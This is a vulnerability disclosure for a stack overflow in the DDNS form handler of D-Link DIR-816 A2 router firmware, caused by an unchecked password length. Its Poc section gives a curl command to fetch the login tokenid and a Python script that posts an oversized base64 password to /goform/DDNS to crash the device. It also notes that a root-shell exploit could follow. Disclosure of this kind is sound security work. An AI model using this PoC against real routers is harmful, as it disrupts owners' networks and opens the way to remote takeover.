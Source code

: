 
# D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/DDNS/img/vuln1.png)

We need to meet the conditions first

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/DDNS/img/vuln2.png)

The password is assigned to v7, and the v7 base64 will be stored in v11 after decryption, but the size of the password is not checked here, resulting in stack overflow

## Poc

First you need to get the tokenid

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```python
import requests
import base64

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = '1804289383'

url = 'http://192.168.0.1/goform/DDNS'

payload = base64.b64encode(b'a' * 1000)

data = {
    'tokenid' : tokenid,
    'enable' : '1',
    'hostname' : 'DDNS',
    'username' : '123',
    'password' : payload
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

Then you can see the router crash, and finally you can write an exp to get a root shell

